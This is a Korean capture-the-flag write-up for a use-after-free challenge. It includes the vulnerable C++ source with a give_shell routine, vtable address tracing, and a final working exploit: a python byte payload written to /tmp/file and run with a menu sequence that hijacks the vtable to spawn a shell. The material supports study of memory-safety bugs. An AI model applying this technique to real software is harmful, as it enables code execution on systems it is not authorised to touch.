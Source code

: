 
\#include \<fcntl.h></br>
\#include \<iostream></br>
\#include \<cstring></br>
\#include \<cstdlib></br>
\#include \<unistd.h></br>
using namespace std;</br>

class Human{</br>private:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void give_shell(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system("/bin/sh");</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>
protected:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;int age;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;string name;</br>
public:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void introduce(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "My name is " << name << endl;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "I am " << age << " years old" << endl</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>};</br>

class Man: public Human{</br>public:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Man(string name, int age){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->name = name;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;this->age = age;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void introduce(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Human::introduce();</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cout << "I am a nice guy!" << endl;</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>};</br>

class Woman: public Human{</br>
public:</br>
        Woman(string name, int age){</br>
                this->name = name;</br>
                this->age = age;</br>
        }</br>
        virtual void introduce(){</br>
                Human::introduce();</br>
                cout << "I am a cute girl!" << endl;</br>
        }</br>
};</br>

int main(int argc, char* argv[]){</br>
	Human* m = new Man("Jack", 25);</br>
	Human* w = new Woman("Jill", 21);</br>

	size_t len;</br>
	char* data;</br>
	unsigned int op;</br>
	while(1){</br>
		cout << "1. use\n2. after\n3. free\n";</br>
		cin >> op;</br>

		switch(op){</br>
			case 1:</br>
				m->introduce();</br>
				w->introduce();</br>
				break;</br>
			case 2:</br>
				len = atoi(argv[1]);</br>
				data = new char[len];</br>
				read(open(argv[2], O_RDONLY), data, len);</br>
				cout \<< "your data is allocated" << endl;</br>
				break;</br>
			case 3:</br>
				delete m;</br>
				delete w;</br>
				break;</br>
			default:</br>
				break;</br>
		}</br>
	}</br>
</br>
	return 0;	</br>
}</br>
</br>

처음 1을 입력->3을 입력해서 free를 해보자

c25c50(이건 바뀜)->401570->40117a(HUMAN의 give_shell)인데, +8해서 401578->4012d2(MAN의 introduce) 후자가 실행된다.	
	3을 입력하면 c25c50이 401590->40117a 으로 바뀐 후, c25c50이 모두 지워져버린다.	 
c25ca0->401550->40117a(HUMAN의 give_shell)인데, +8해서 401558->401376(WOMAN의 introduce)이 실행된다. 
	이 또한, 3을 입력하면, c25ca0이 401590->40117a으로 바뀐 후, c25ca0이 모두 지워버린다.

1->3 delete하지 않고, 2를 할 경우
1->2 c25ca0보다 훨씬 뒤에 입력이 된다.
b40c50, b40ca0일때 -> b414e0 b41510
/tmp/file을 만드는 법
python -c 'print "AAAA"' > /tmp/file

1->3->2 c25ca0에 AAAA입력 된다. 1->3->2->2 c25ca0에 AAAA입력, c25c50에 AAAA입력
Use after free를 이용!!(free된 후, free된 부분에 덮어써진다.)
그러면 c25c50에 0x401568이 입력되면, +8인 0x401570이 실행되고, 0x40117a가 실행되어 쉘이 따진다!

python -c 'print "\x68\x15\x40"' > /tmp/file
./uaf 3 /tmp/file
1->3->2->2->1
